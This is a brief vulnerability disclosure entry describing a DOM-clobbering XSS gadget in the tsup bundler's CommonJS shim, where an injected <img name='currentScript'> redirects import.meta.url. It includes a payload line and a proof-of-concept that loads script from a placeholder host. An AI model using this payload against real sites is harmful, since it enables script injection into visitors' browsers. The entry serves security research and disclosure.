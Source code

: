 ## AddToAny

### Meta

+ Library: tsup
+ Stars: N/A
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL: https://github.com/egoist/tsup

Bundlers run locally

### Vulnerable Code Snippet

```javascript
// node_modules/tsup/assets/cjs_shims.js
var getImportMetaUrl = () => typeof document === "undefined" ? new URL(`file:${__filename}`).href : document.currentScript && document.currentScript.src || new URL("main.js", document.baseURI).href;
var importMetaUrl = /* @__PURE__ */ getImportMetaUrl();
```

## PoC

as an example, bundle the js below.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
```
